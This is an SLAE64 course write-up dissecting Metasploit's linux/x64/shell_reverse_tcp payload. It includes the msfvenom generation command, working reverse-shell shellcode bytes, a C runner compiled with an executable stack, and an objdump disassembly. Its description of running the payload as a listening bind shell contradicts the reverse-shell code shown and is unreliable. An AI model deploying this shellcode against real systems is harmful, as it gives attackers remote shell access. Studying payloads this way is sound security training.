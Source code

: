 ## Assignment #5.3: Shellcode `linux/x64/shell_reverse_tcp` Dissection
---
---
### Introduction
---
The `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_reverse_tcp` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_reverse_tcp --list-options
Options for payload/linux/x64/shell_reverse_tcp:
=========================

       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x64/shell_reverse_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 74
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
```

The payload is only 74 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `LHOST`: The target to connect back

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger. The symbol `==` means that the comment is a continuation from previous line comment.

### Creating the Shellcode
---
Let's generate the shellcode. Let's leave the default port "4444" and let's set LHOST to "127.0.0.1" (loopback address). Let's generate the payload shellcode:
```c
SLAE64> msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamed to `Payload_03.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_03.c -o Payload_03
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A053_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_03
**_REMOVED_**
0000000000004060 <code>:
    4060:       6a 29                   push   0x29
    4062:       58                      pop    rax
    4063:       99                      cdq
    4064:       6a 02                   push   0x2
    4066:       5f                      pop    rdi
    4067:       6a 01                   push   0x1
    4069:       5e                      pop    rsi
    406a:       0f 05                   syscall
    406c:       48 97                   xchg   rdi,rax
    406e:       48 b9 02 00 11 5c 7f    movabs rcx,0x100007f5c110002
    4075:       00 00 01 
    4078:       51                      push   rcx
    4079:       48 89 e6                mov    rsi,rsp
    407c:       6a 10                   push   0x10
    407e:       5a                      pop    rdx
    407f:       6a 2a                   push   0x2a
    4081:       58                      pop    rax
    4082:       0f 05                   syscall
    4084:       6a 03                   push   0x3
    4086:       5e                      pop    rsi
    4087:       48 ff ce                dec    rsi
    408a:       6a 21                   push   0x21
    408c:       58                      pop    rax
    408d:       0f 05                   syscall 
    408f:       75 f6                   jne    4087 <code+0x27>
    4091:       6a 3b                   push   0x3b
    4093:       58                      pop    rax
    4094:       99                      cdq    
    4095:       48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
    409c:       73 68 00 
    409f:       53                      push   rbx
    40a0:       48 89 e7                mov    rdi,rsp
    40a3:       52                      push   rdx
    40a4:       57                      push   rdi
    40a5:       48 89 e6                mov    rsi,rsp
    40a8:       0f 05                   syscall
        ...
**_REMOVED_**
SLAE64> 
```

